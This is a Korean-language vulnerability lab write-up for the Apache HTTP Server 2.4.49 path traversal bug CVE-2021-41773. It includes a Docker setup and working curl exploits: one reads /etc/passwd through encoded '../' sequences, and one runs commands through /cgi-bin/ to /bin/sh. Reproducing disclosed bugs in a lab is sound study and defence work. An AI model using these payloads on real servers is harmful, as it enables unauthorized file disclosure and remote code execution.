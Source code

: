 # Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49 (CVE-2021-41773)

## 요약
The Apache HTTP Server Project는 UNIX 및 Windows를 포함한 현대 운영체제를 위한 오픈소스 HTTP 서버를 개발하고 유지하려는 노력입니다.

Apache HTTP Server 2.4.49버전에서 경로 정규화에 대한 변경사항에서 결함을 확인했습니다.
공격자는 path traversal attack을 이용해 url을 정해진 document root외의 파일에 매핑할 수 있습니다.

이런 디렉토리 외부 파일이 일반적인경우 default configuration인 : "require all denied"로 보호되지 않은 경우에, 공격이 성공할 수도 있습니다.
만약, CGI스크립트 역시 활성화된 상태라면 aliased path에 대해서도 Remote Code Execution이 가능해집니다.

References:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544
- https://twitter.com/snyff/status/1445565903161102344

## 환경구성

테스트 환경 구성을 위해 다음 명령어를 실행합니다:

```
docker compose build
docker compose up -d
```

서버가 정상적으로 구동된다면, `http://your-ip:8080` 에 접속하여 Apache HTTP Server의 `It works!`라는 문구를 확인할 수 있습니다.

## Exploit

취약점 재현을 위한 curl 명령어 ( `/icons/` 이라는 디렉터리가 존재해야함 )

```
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

`/etc/passwd` 를 성공적으로 확인할 수 있습니다.

![](1.png)

서버에서 CGI 또는 CGID 모드를 활성화하면, path traversal취약점으로 인해 임의 명령실행이 허용됩니다.

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

![](2.png)


## 정리

상위 디렉터리 문자열 "../"에 대한 필터링 미흡으로 발생한 취약점입니다.

기본적으로 Apache에서 "../"문자열이 차단되어 있지만, URL 인코딩을 이용해 우회가 가능합니다.
